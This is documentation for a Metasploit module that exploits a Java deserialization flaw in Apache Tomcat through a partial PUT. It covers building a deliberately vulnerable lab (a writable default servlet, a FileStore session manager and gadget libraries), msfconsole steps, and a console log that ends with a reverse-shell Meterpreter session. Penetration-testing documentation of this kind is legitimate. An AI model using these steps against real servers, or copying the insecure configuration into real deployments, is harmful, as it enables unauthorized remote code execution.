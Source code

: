 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality
that can be exploited with a partial PUT to place an attacker controlled deserialization payload in the work directory.
For the exploit to succeed, writes must be enabled for the default servlet, and `org.apache.catalina.session.PersistentManager` must be
configured to use `org.apache.catalina.session.FileStore`.

## Setup
Download Ubuntu Server 24:
`wget https://mirror.0xem.ma/ubuntu-releases/24.04.2/ubuntu-24.04.2-live-server-amd64.iso`

Install ubuntu on your preferred hypervisor, enable SSH during installation. Reboot once installation is complete and SSH into the target.
Download Tomcat and Java:
```
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
wget https://cdn.azul.com/zulu/bin/zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
```

Extract the JDK Archive to the appropriate directory:
```
tar -xvzf zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
sudo mkdir -p /opt/java
sudo mv zulu8.80.0.17-ca-jdk8.0.422-linux_x64 /opt/java/zulu8
```

Install `unzip` and extract Tomcat:
```
sudo apt install unzip -y
sudo unzip apache-tomcat-9.0.90.zip -d /opt/
```

Set `CATALINA_HOME` and `JAVA_HOME` also update `PATH` by adding the following to `~/.bashrc`:
```
export CATALINA_HOME=/opt/apache-tomcat-9.0.90
export JAVA_HOME=/opt/java/zulu8
export PATH=$JAVA_HOME/bin:$PATH
```

Apply changes:
```
source ~/.bashrc
```

Change Tomcat permissions:
```
sudo chown -R msfuser:msfuser /opt/apache-tomcat-9.0.90
sudo chmod -R +x /opt/apache-tomcat-9.0.90/bin
```

Edit `conf/web.xml` and update the default servlet with the following:
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

Edit `conf/content.xml` and add the following inside the pre-existing `<Context>` tags:
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```

Create the following directory inside the tomcat root directory:
```
mkdir -p webapps/ROOT/WEB-INF/lib
cd ./webapps/ROOT/WEB-INF/lib
```

Download the following dependancies:
```
wget https://repo1.maven.org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget https://repo1.maven.org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

Start the vulnerable Tomcat instance:
```
cd /opt/apache-tomcat-9.0.90/bin
./startup.sh
```

## Options

### GADGET
The desired ysoserial gadget to use to obtain RCE.

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Apache Tomcat 9.0.99, jdk8.0.422 running on Ubuntu Server 24. Target: Linux Command

```
msf6 > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 192.168.178.93
rhost => 192.168.178.93
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > check
[+] 192.168.178.93:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 192.168.178.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[*] Uploaded ysoserial payload (qnuBmIxezf.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 192.168.178.93
[*] Meterpreter session 1 opened (192.168.178.103:4444 -> 192.168.178.93:40696) at 2025-04-02 09:59:48 +0100
```
